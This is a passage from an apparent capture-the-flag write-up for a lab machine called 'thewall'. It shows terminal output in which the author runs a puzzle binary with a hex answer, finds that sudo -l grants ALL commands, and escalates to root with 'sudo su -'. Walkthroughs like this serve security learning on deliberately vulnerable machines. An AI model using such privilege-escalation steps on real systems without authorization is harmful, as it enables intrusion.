 ![Image Magik Brightness Increase](/img/blog/thewall/brighter.jpg)

## Root Shell 

Searching for the string <code>welcomethemachine</code> discovered the
following binary <code>/var/www/htdocs/welcometothemachine/PinkFloyd</code>. 

{% highlight bash %}
$ ./PinkFloyd
Please send your answer to Old Pink, in care of the Funny Farm. - Pink Floyd,
Empty Spaces
Answer: 50696e6b466c6f796435305965617273

Fearlessly the idiot faced the crowd smiling. - Pink Floyd, Fearless

Congratulations... permission has been granted.
You can now set your controls to the heart of the sun!
$ sudo -l
Password:
Matching Defaults entries for DavidGilmour on thewall:
    env_keep+="FTPMODE PKG_CACHE PKG_PATH SM_PATH SSH_AUTH_SOCK"

User DavidGilmour may run the following commands on thewall:
(ALL) SETENV: ALL
(ALL) SETENV: ALL
(ALL) SETENV: ALL
(ALL) SETENV: ALL
$ whoami
DavidGilmour
$ id
uid=1004(DavidGilmour) gid=1004(DavidGilmour)
groups=1004(DavidGilmour), 1(daemon), 67(www),
1005(welcometothemachine)
$ sudo su -